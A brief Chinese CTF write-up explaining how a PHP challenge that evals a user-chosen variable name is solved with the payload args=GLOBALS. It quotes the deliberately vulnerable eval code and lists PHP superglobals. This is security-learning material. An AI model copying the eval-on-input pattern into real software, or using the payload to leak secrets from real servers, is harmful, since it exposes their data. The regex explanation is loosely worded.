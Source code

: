 # 关于php超全局变量

## 0x01 问题来源

ctf：[http://120.24.86.145:8004/index1.php](http://120.24.86.145:8004/index1.php)

 flag In the variable !

 `<?php    
  
error_reporting(0);  
include "flag1.php";  
highlight_file(__file__);  
if(isset($_GET['args'])){  
    $args = $_GET['args'];  
    if(!preg_match("/^\w+$/",$args)){  
        die("args error!");  
    }  
    eval("var_dump($$args);");  
}  
?>`  

payload：[http://120.24.86.145:8004/index1.php?args=GLOBALS](http://120.24.86.145:8004/index1.php?args=GLOBALS)

## 0x02 原理解析

这段代码的意思是输入变量名，得变量内容，var\_dump是说这个变量可以是数组或者就是一个变量，\w是匹配所有符号（除$），加上了$就是匹配了所有符号，而且有var\_dump代码执行行不通，$GLOBALS这个超全局变量作用是引用全局作用域中的可用的全局变量，把他们放在一个数组中，刚好把flag1.php里面的变量全部打印出来。

## 0x03 扩展

php超全局变量还有很多



* $GLOBALS
* $\_SERVER   //针对web服务打印一些请求信息
* $\_REQUEST   //和get、post一样接收一些请求参数
* $\_POST
* $\_GET
* $\_FILES  //应该是一些文件操作
* $\_ENV  // 只是被动的接受服务器端的环境变量并把它们转换为数组元素，你可以尝试直接输出它。 
* $\_COOKIE  //剩下俩不说了
* $\_SESSION

